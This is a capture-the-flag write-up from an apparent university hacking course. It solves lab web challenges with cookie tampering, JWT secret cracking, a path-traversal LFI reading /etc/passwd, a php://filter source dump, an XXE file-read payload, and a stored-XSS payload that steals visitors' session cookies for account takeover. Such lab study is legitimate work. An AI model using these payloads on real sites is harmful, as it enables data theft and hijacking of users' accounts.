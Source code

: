 # Exercise 2 (Lecture 2)

Exercises using Haaukins for the Hacker space course in the spring semester 2024.

## Admin logon

**Challenge Description**: Menne company at menne.com is hiding things from all of its users. Can you login as admin and find out what they want to keep secret? It doesn’t seem to check anyone’s password.

### Challenge Solution
This was a simple cookie manipulation challenge, which was solved by chaning `{admin: False}` to `{admin: True}` in the cookie and reloading the site.

## JWT

**Challenge Description**: Visit jwt.com. What is that cookie after you have logged in? Have you ever heard of JWT?

### Challenge Solution
This challenge supplied a JWT, which had a simple secret set. In order to crack the secret, John the ripper was used. The secret was `challenge`. Using the JWT.com jwt parser to change the user to admin and resigning the cookie with the correct secret, this challenge was solved.

## Serilizator

**Challenge Description**: Visit serializator.com. Login as Admin to reach the goal!

### Challenge Solution

Revisit.

## Challenge: Exploracaõ

**Challenge Description**:  Mom, can we have geoguessr? No we have geoguessr at home: i3geo

### Challenge solution

Seemingly no exploit on the loging page or by manipulating the cookies. However a Local file inclusion (LFI). Where the attacker can print out arbitrary files on the filesystem using the URL. `http://exploracao.hkn/i3geo/exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd` this URL will print the passwd file of the server. The page `http://exploracao.hkn/i3geo/flag.php` shows that the flag is only visible to admin user, so we either need to find the flag file or find the admin user credentials.

PHP code is evaluated and sends a rendered HTML file to the user if we try to get it through the URL with LFI. Therefore we are able to craft a URL `http://exploracao.hkn/i3geo/exemplos/codemirror.php?&pagina=php://filter/convert.base64-encode/resource=../flag.php` which uses PHP filters to encode the file to base64 before returning the output to the browser. This way the PHP code is not excecuted. The very interesting part is the filters applied: `php://filter/convert.base64-encode/resource=../flag.php`. Pasting the result into cyberchef gives the original output:

```php
<?php
define("ONDEI3GEO", ".");
include "ms_configura.php";
include "./init/head.php";
?>

<body style="padding-top: 90px;" id="topo">
    <nav class="navbar navbar-default navbar-fixed-top">
        <div class="container-fluid">
            <div class="navbar-header">
                <button type="button" title="icon-bar" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                    <span class="sr-only"></span> <span class="icon-bar"></span> <span class="icon-bar"></span> <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" onclick="$('.cartao').fadeIn(600);" href="./init/index.php">
                    <span class="material-icons md-18">home</span> <?php echo $mensagemInicia;?>
                </a>
            </div>
            <div id="navbar" class="navbar-collapse collapse navbar-responsive-collapse">

            </div>
        </div>
    </nav>

    <!-- FLAG -->
    <div class="container-fluid row center-block;" style="width:100%" id="conteudoPrincipal" tabindex="-1">
        <div class="row center-block text-center" style="max-width:1000px">
            <?php
            if ($_SESSION["usuario"] === "administrador") {
                echo "<h2>DDC{Static_Flag_redacted}</h2>";
            } else {
                echo "<h2>Flag is only visible to admin user</h2>";
            }
            ?>
        </div>
    </div>

    <div tabindex="-1" class="navbar-fixed-bottom container-fluid" style="background-color: #fff; margin-top: 10px; padding-top: 10px;">
        <div class="row text-center">
            <div class="col-lg-12 center-block">
                <a tabindex="-1" rel="license" href="http://creativecommons.org/licenses/GPL/2.0/legalcode.pt" target="_blank">
                    <img alt="Licen&ccedil;a Creative Commons" style="border-width: 0" src="https://i.creativecommons.org/l/GPL/2.0/88x62.png" />
                </a>
                <br />O i3Geo est&aacute; licenciado com uma Licen&ccedil;a
                <a tabindex="-1" rel="license" href="http://creativecommons.org/licenses/GPL/2.0/legalcode.pt" target="_blank">Creative Commons - Licen&ccedil;a P&uacute;blica
                    Geral GNU (&#34;GNU General Public License&#34;)</a>
            </div>
        </div>
    </div>
</body>
</html>
```

Giving us the flag in the if statement. Original flag redacted, as it is static.

## External entities

**Challenge Description**: If a JSON string looks this `{“login”:{“user”:“username”,“pass”:“password”}}`… Then what would the same string look like in XML? Use the XML format of the string as a request to a webserver at external.com. Manipulate it to print the flag.txt file located in the /home/ directory.

### Challenge Solution

This challenge is about XML External Entity injection. This kind of attack happens when an attacker has control over the XML which is parsed by a webserver, XML entities are variables in XML. The service on `external.com` uses a specific format of XML for logging in a user. The format is the XML equivalent of the JSON from the Challenge description: `<login><user>username</user><pass>password</pass></login>`. In reality this webserver just informs the user which username has been parsed in the `<user>` tag of the xml. This is seen in the respone: 

```html
<pre>You have logged in to the server as username</pre>
```

This means that we can use XML entities to write out the contents of the file system through this username attribute. The payload looks like this: 

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///home/flag.txt'> ]>
<login>
<user>hej&xxe;</user>
<pass>pass</pass>
</login>
```

Here the Document type definition is used to load the contents of the flag.txt into the `xxe` variable, and then this variable is supplied to the user tag, where it will be printed to the browser. The response will be:

```html
<pre>You have logged in to the server as hej
HKN{R2-Njh-o2JCW}
</pre>
```

And there the flag is located!

**Note:** Using curl, it is possible to parse a file as the data by using `-d @file-path` as a param.

## Sharing is caring

**Challenge Description**: Across the site `https://dogshare.com`, alot of delicious hotdogs has been shared. Maybe you can make the users visiting the site share a little extra?

### Challenge Solution

The website hosted on `https://dogshare.com` is a blog where users can share pictures of hotdogs. No user is supplied, yet even without one, it is possible to comment on the posts. This might be an XSS challenge. We are able to achieve stored XSS by posting a comment with the payload: `<img src='#' onerror=alert(1) />`. It seems like some tags are sanitized and others are not, like the image tag.

After achieving XSS we need to modify the payload of the stored XSS, to post the cookie of the other users. This is done by changing the code in the onerror part of the img tag to the following:

`fetch("/comments", {method: "POST", headers: {'Content-Type': 'application/x-www-form-urlencoded'},body: "did=1&comment=" + btoa(document.cookie)})`

Here the fetch JS function is used to post a comment to the dogshare website, including the document.cookie (a users cookie) encoded as base64. The `did=1` part of the form, is specifying which post to comment on.

**Note**: Payload needs to be URL encoded in order to parse correctly.

```urlencode
did=1&comment=test+<img+src%3d'%23'+onerror%3d"fetch('/comments',+{method%3a+'POST',+headers%3a+{'Content-Type'%3a+'application/x-www-form-urlencoded'},+body%3a+'did%3d1%26comment%3d'+%2b+btoa(document.cookie)})"+/>
```

When the comment is registered and other user visit the a comment is posted with their session cookie: `c2Vzc2lvbj03YjNmMjNmNzVhOGU1ZTdhYTU4YjgwOTJmMjVhOTFkNQ` encoded as base64. The cookie is decoded and parsed into the browser as: `session=7b3f23f75a8e5e7aa58b8092f25a91d5`. When reloading the site, we are logged in as Kristy.

Found flag!: HKN{MP-3G-Oxo4kC}
